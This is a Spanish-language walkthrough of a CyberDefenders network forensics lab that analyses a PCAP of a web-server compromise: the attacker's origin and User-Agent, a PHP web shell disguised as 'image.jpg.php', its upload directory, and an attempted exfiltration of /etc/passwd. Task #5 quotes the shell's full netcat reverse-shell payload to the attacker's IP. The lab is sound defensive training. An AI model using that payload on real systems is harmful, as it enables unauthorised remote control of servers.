

En este laboratorio, nos adentramos en la investigación forense de una actividad sospechosa detectada en un servidor web de la empresa, capturada y proporcionada en forma de un archivo PCAP para su análisis. El escenario resalta un incidente de seguridad crítico que involucra la carga no autorizada de un web shell malicioso, la ejecución de comandos subsecuentes e intentos de exfiltrar datos sensibles. A través de este análisis, desvelaremos los métodos empleados por el atacante, las vulnerabilidades explotadas y las técnicas utilizadas para mantener el acceso no autorizado al servidor.

~~~
Platform: CyberDefenders
Level: Easy
Type: SOC, Network Forensics
~~~

### Lab Scenario

> Se identificó un archivo sospechoso en el servidor web de la empresa, lo que generó alertas dentro de la intranet. El equipo de Desarrollo marcó la anomalía, sospechando de una posible actividad maliciosa. Para abordar el problema, el equipo de redes capturó el tráfico de red crítico y preparó un archivo PCAP para su revisión. Tu tarea es analizar el archivo PCAP proporcionado para descubrir cómo apareció el archivo y determinar el alcance de cualquier actividad no autorizada.

### Key Information

- Un archivo **`PCAP (Packet Capture)`** es un archivo utilizado para almacenar datos de red capturados, es decir, las comunicaciones o paquetes de datos que viajan a través de una red. Debido a que un archivo PCAP puede contener información sensible, como credenciales o datos personales, su manejo debe ser adecuado para evitar fugas de información.

- La **`data exfiltration`** es el proceso de obtener o transferir datos de un sistema o red sin autorización. Este término se utiliza principalmente en el contexto de la ciberseguridad, donde se refiere al robo o fuga de información sensible, como datos personales, secretos comerciales, información financiera o cualquier otro tipo de dato valioso.

### Analysis

**`Wireshark`** es una de las herramientas más populares y utilizadas para el análisis y captura de paquetes de red. Es un **analizador de protocolos de red** de código abierto que permite a los usuarios capturar, inspeccionar y analizar el tráfico que pasa por una red.

#### Task #1

> **Identifying the geographical origin of the attack helps in implementing geo-blocking measures and analyzing threat intelligence. From which city did the attack originate?**

La **geolocalización IP** es el proceso mediante el cual se determina la ubicación física asociada a una dirección IP, utilizando datos como el país, la ciudad, la latitud y el proveedor de servicios de internet (ISP). En el ámbito de la ciberseguridad, esta herramienta resulta esencial para identificar el origen de actividades en la red, como ataques o accesos no autorizados, y es fundamental para implementar medidas de geo-bloqueo y ajustar estrategias contra amenazas cibernéticas.

Al abrir el archivo `PCAP` con **Wireshark**, observamos que solo hay dos direcciones IP involucradas:

- **`117.11.88.124`**
- **`24.49.63.79`**

Al ordenar los paquetes por tiempo, descubrimos que la dirección IP **`117.11.88.124`** estableció conexión a la dirección **`24.49.63.79`**, lo que sugiere que esta dirección podría pertenecer al atacante. Utilizando la herramienta **[https://www.iplocation.net/](https://www.iplocation.net/)**, podemos obtener la ciudad de origen del ataque.

Por lo visto, la ciudad de origen del ataque es **Tiajin, China** y la victima es procedente de **Maryland, United States**. Por lo que efectivamente, la dirección IP del atacante es **`117.11.88.124`**

#### Task #2

> **Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's User-Agent?**

Un **User-Agent (UA)** es una cadena de texto que se incluye en los encabezados HTTP de una solicitud de red, enviada por un cliente (generalmente un navegador web, pero también puede ser una aplicación u otro tipo de cliente) al servidor. Esta cadena proporciona información detallada sobre el software que realiza la solicitud. Buscamos los encabezados **`HTTP`**:

La cadena **`Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`**. indica que la solicitud proviene de un navegador **Firefox** versión **115.0**, que se está ejecutando en un sistema **Linux** de 64 bits. El sistema utiliza **X11**, el sistema de ventanas estándar en entornos Unix y Linux. El motor de renderizado utilizado es **Gecko** versión **109.0**, y la fecha de compilación de ese motor es **20100101**. Además, el valor "Mozilla/5.0" es un identificador genérico utilizado para asegurar la compatibilidad con servidores antiguos.

#### Task #3

> **We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?**

Una **web shell** es un script malicioso que se carga en un servidor web para permitir a un atacante ejecutar comandos arbitrarios en el servidor de forma remota. Las **web shells** suelen aprovechar vulnerabilidades en aplicaciones web, como malas configuraciones o fallos en la seguridad de scripts o plataformas (por ejemplo, PHP, ASP, etc.). Una vez instalada, la web shell permite al atacante realizar una variedad de acciones. Básicamente, actúa como una puerta trasera que da acceso al atacante al sistema comprometido, lo que le permite controlar y manipular el servidor sin la autorización del administrador. Los atacantes suelen cargar la web shell mediante formularios de carga de archivos o enviando peticiones con scripts maliciosos. 

En este contexto, el atacante suele utilizar el método **POST** para cargar un archivo malicioso (como un script PHP, ASP, JSP, etc.) en el servidor web. Por lo que al utilizar el filtro **`ip.src == 117.11.88.124 && http.request.method == "POST"`**, podemos concentrarnos en las solicitudes **POST** que provienen de una dirección IP específica, lo cual nos ayuda a identificar posibles cargas de archivos maliciosos o comandos ejecutados desde esa IP hacia el servidor.

Luego de aplicar el filtro en Wireshark para filtrar por el método **POST**, notamos que se realizó una petición HTTP con la siguiente información:

**POST /reviews/upload.php HTTP/1.1**
- **Content-Type**: `application/x-php`
- **Filename**: `"image.jpg.php"`

Este detalle es altamente sospechoso, ya que aunque el archivo parece ser una imagen (por la extensión **.jpg**), el nombre del archivo termina en **.php**, lo que sugiere que el atacante está intentando subir un archivo PHP malicioso disfrazado de imagen.

#### Task #4

> **Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?**

Para identificar la ruta en la que se almacena el archivo cargado, en este caso, se utiliza el filtro **`ip.src == 117.11.88.124 && http.request.uri contains "image.jpg.php"`**. Este filtro permite aislar todas las solicitudes **HTTP** relacionadas con la ruta **`image.jpg.php`**, lo cual es crucial para detectar **intentos de ejecución o acceso** al archivo malicioso cargado. Dicho filtro resulta especialmente útil para rastrear los esfuerzos del atacante por interactuar con el archivo y ejecutar código malicioso en el servidor.

Se observa que la **web shell** se almacena en la ruta **`/reviews/uploads/`**

#### Task #5 

> **Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?**

Para identificar el puerto abierto en la máquina atacante, es necesario examinar la web shell. Al revisar el payload, podemos observar que el puerto utilizado es el **8080**, ya que en el código de la web shell se encuentra la siguiente instrucción:

**`<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 nc 117.11.88.124 8080 >/tmp/f"); ?>`**

Este comando utiliza **Netcat** (`nc`) para establecer una conexión saliente hacia la IP **117.11.88.124** a través del puerto **8080**, lo que confirma que este puerto es el objetivo de la comunicación no autorizada.

#### Task #6

> **Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?**

Se puede observar que el atacante está utilizando **CURL** para transferir el archivo **`/etc/passwd`** desde la máquina comprometida hacia su propia máquina, estableciendo la comunicación a través del puerto **443**. 

El archivo **`passwd`** contiene información crítica sobre las cuentas de usuario del sistema, lo que indica que el atacante está intentando exfiltrar datos sensibles.

**[Verify Achievment](https://cyberdefenders.org/blueteam-ctf-challenges/progress/Yw4rf/149/)**

